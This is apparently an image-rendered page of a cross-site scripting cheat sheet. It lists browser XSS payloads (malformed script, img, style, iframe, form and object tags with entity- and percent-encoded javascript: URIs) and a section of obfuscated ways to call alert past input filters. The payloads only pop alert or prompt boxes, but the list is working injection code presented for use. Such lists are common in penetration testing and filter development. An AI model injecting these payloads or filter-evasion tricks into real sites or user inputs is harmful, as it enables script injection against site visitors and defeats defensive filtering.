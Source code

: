 ````
-   `</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>`
-   `<style>//*{x:expression(alert(/xss/))}//<style></style>`
-   On Mouse Over​
-   `<img src="/" =_=" title="onerror='prompt(1)'">`
-   `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe`
-   `<script x> alert(1) </script 1=2`
-   `<form><button formaction=javascript&colon;alert(1)>CLICKME`
-   `<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"`
-   `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>`
-   `<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>`

Filter Bypass Alert Obfuscation
-------------------------------

-   `(alert)(1)`
-   `a=alert,a(1)`
-   `[1].find(alert)`
-   `top[“al”+”ert”](1)`
-   `top[/al/.source+/ert/.source](1)`
-   `al\u0065rt(1)`
-   `top[‘al\145rt’](1)`
-   `top[‘al\x65rt’](1)`
-   `top[8680439..toString(30)](1)`
-   `alert?.()`